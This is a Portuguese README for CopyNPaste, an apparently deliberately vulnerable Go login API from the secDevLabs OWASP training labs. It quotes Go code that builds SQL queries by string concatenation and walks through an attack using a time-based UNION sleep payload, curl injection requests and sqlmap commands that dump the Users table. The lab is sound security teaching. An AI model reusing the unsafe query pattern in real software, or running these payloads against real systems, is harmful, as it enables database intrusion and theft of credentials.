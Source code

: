 # CopyNPaste API

[Access content in English](README.md)

<img src="images/CopyNPaste.png" align="center"/>

CopyNPaste é uma aplicação web Golang que usa uma API e um front-end simples para simular uma página de login. Possui rotas `/register` e `/login` que, ao se comunicar com um banco de dados MySQL, permitem que os usuários se registrem e entrem em um sistema genérico. 

## Index

- [Definição](#o-que-é-injeção)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Setup

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/copy-n-paste
```

```sh
make install
```

Depois é só visitar [localhost:10001][app], conforme exemplificado abaixo:

<img src="images/CopyNPaste.png" align="center"/>

## Conheça o app 💉

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples: 

- Registre um novo usuário via front-end.
- Faça login como este usuário via front-end.

- Registre outro usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```

- Faça login como este segundo usuário agora usando a linha de comando:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### A falta de validação de entrada permite a injeção de consultas SQL

Depois de revisar `NewUser()` , `CheckIfUserExists()` e `AuthenticateUser()` de [`db.go`](<(https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/copy-n-paste/app/util/db.go#)>), foi possível ver que algumas entradas de usuários estão concatenadas com consultas SQL, conforme mostrado nos seguintes trechos de código:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

Como nenhuma validação está sendo feita nessas variáveis, as injeções de SQL podem ser executadas com sucesso no banco de dados. Usando a interface web, podemos enviar algumas informações, usando o formulário da "página de inspeção", para entender melhor como ela se comunica com a API.

<img src="images/attack-0.png" align="center"/>

Para confirmar que o campo de entrada é vulnerável, a seguinte carga útil pode ser usada para testar se um atraso de 5 segundos será observado após o envio:

```
-1' UNION select 1,2,sleep(5) -- '
```

<img src="images/attack-1.png" align="center"/>

Usando `curl` na interface CLI, podemos testá-lo novamente, desta vez com um atraso maior de 30 segundos:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Requisição:

<img src="images/attack-2.png" align="center"/>

30 segundos depois, confirmando que podemos executar comandos no servidor: 

<img src="images/attack-3.png" align="center"/>

#### 🔥

Um invasor pode agora criar qualquer consulta SQL maliciosa e enviá-la para a API que, em teoria, seria executada. Para esta narrativa de ataque, [sqlmap](https://github.com/sqlmapproject/sqlmap) será usado para exemplificar como um ataque automatizado de SQL Injection pode ser executado.

Para instalar o sqlmap em um Mac você pode simplesmente digitar:

```sh
brew install sqlmap
```

O primeiro passo possível é criar um arquivo, `postRequest.txt`, contendo o próprio HTTP POST, conforme mostrado no código a seguir:


```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Antes de executar o ataque, você pode abrir uma nova aba em seu terminal e digitar o seguinte comando para observar como as solicitações maliciosas serão recebidas pelo app:

```sh
docker logs a1_api -f
```

Depois disso, agora podemos usar a opção `-r` e esperar que o sqlmap execute várias solicitações maliciosas até encontrar o parâmetro vulnerável:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

Depois de entender como esse banco de dados é estruturado, um invasor pode usar o seguinte comando para recuperar os detalhes do banco de dados:

```sh
sqlmap -r postRequest.txt --tables
```

E, em seguida, recupere informações confidenciais dele:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute consultas SQL no banco de dados.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs
